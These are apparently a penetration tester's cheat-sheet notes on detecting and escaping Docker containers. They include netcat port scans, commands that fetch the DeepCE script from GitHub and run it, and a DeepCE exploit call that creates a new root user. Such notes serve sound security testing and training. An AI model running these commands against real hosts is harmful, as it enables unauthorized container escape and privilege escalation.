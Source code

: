 https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html

# Know you're in a docker

```bash
ps aux
cd / && ls -lah
# if .dockerenv then ...

cat /proc/1/cgroup
```

# Escape

```bash
arp -a
# other hosts ???
# scan open ports
nc -zv 127.0.0.1 1-65535
nc -zv $host 1-65535

# check for db and other stuff....
```

## Resources

[Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/)

### Tool - DeepCE

https://github.com/stealthcopter/deepce

```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

# start
chmod +x ./deepce.sh
./deepce.sh

# create new root user on system
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```
